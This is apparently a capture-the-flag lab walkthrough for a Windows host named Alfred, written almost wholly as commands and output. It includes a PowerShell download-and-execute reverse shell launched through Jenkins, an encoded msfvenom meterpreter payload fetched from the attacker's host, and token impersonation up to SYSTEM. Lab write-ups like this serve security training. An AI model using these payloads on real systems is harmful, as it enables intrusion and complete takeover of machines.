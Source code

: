 ## nmap -sVC -A 10.10.211.142 -T5 -Pn
```bash
Nmap scan report for 10.10.211.142
Host is up (0.41s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2022-03-24T14:39:39
|_Not valid after:  2022-09-23T14:39:39
|_ssl-date: 2022-03-25T15:16:56+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: ALFRED
|   NetBIOS_Domain_Name: ALFRED
|   NetBIOS_Computer_Name: ALFRED
|   DNS_Domain_Name: alfred
|   DNS_Computer_Name: alfred
|   Product_Version: 6.1.7601
|_  System_Time: 2022-03-25T15:15:57+00:00
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|8.1 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows Server 2008 R2 or Windows 8 (90%), Microsoft Windows 7 (89%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (89%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (89%), Microsoft Windows Server 2008 R2 SP1 (88%), Microsoft Windows Server 2008 (88%), Microsoft Windows Server 2008 R2 (88%), Microsoft Windows 7 SP1 (88%), Microsoft Windows 8.1 Update 1 (88%), Microsoft Windows Phone 7.5 or 8.0 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   300.00 ms 10.2.0.1
2   ... 3
4   511.54 ms 10.10.211.142

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 571.36 seconds
```

## Reverse shell from jenkins
```bash
powershell IEX(New-Object Net.WebClient).downloadString('http://10.2.92.176:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.2.92.176 -Port 5555
```
```bash
listening on [any] 5555 ...
connect to [10.2.92.176] from (UNKNOWN) [10.10.56.50] 49206
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce
```
## Privilege Escalation 
``bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.2.92.176 LPORT=4444 -f exe -o shell.exe
use multi/handler
set payload windows/meterpreter/reverse_tcp
```

```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.2.92.176:8000/shell.exe','C:\users\bruce\Desktop\shell.exe')"
```
```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.2.92.176:4444 
[*] Sending stage (175174 bytes) to 10.10.164.65
[*] Meterpreter session 1 opened (10.2.92.176:4444 -> 10.10.164.65:49370 ) at 2022-03-27 12:17:56 +0200

meterpreter > shell
Process 1028 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\users\bruce\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled   
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled     ***********
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
``` 
## meterpreter >load incognito 

## meterpreter > list_tokens -g
```bash
Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT AUTHORITY\WRITE RESTRICTED
NT SERVICE\AppHostSvc
NT SERVICE\AudioEndpointBuilder
NT SERVICE\BFE
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\Dnscache
NT SERVICE\eventlog
NT SERVICE\EventSystem
NT SERVICE\FDResPub
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\MMCSS
NT SERVICE\PcaSvc
NT SERVICE\PlugPlay
NT SERVICE\RpcEptMapper
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\Spooler
NT SERVICE\TrkWks
NT SERVICE\TrustedInstaller
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\Winmgmt
NT SERVICE\WSearch
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
NT AUTHORITY\NETWORK
NT SERVICE\AudioSrv
NT SERVICE\DcomLaunch
NT SERVICE\Dhcp
NT SERVICE\DPS
NT SERVICE\lmhosts
NT SERVICE\MpsSvc
NT SERVICE\PolicyAgent
NT SERVICE\Power
NT SERVICE\ShellHWDetection
NT SERVICE\wscsvc
```


## meterpreter >  impersonate_token "BUILTIN\Administrators"

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 524   516   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 580   516   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 676   580   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 684   580   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 772   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 848   668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 920   608   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
 936   668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 992   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1012  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1016  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1028  2076  cmd.exe               x86   0        alfred\bruce                  C:\Windows\SysWOW64\cmd.exe
 1076  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1216  668   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1244  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1340  668   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1396  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 1432  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1464  668   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\LiteAgent.exe
 1492  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1632  668   jenkins.exe           x64   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jenkins.exe
 1748  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1760  2824  powershell.exe        x86   0        alfred\bruce                  C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
 1820  1632  java.exe              x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jre\bin\java.exe
 1836  668   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1908  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 2056  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 2076  1760  shell.exe             x86   0        alfred\bruce                  C:\Users\bruce\Desktop\shell.exe
 2284  772   WmiPrvSE.exe          x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrvSE.exe
 2512  668   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 2656  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 2824  1820  cmd.exe               x86   0        alfred\bruce                  C:\Windows\SysWOW64\cmd.exe
 2864  668   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
 2908  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 2968  668   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe

meterpreter > migrate 668
[*] Migrating from 2076 to 668...
[*] Migration completed successfully.
meterpreter > shell
Process 2044 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```  




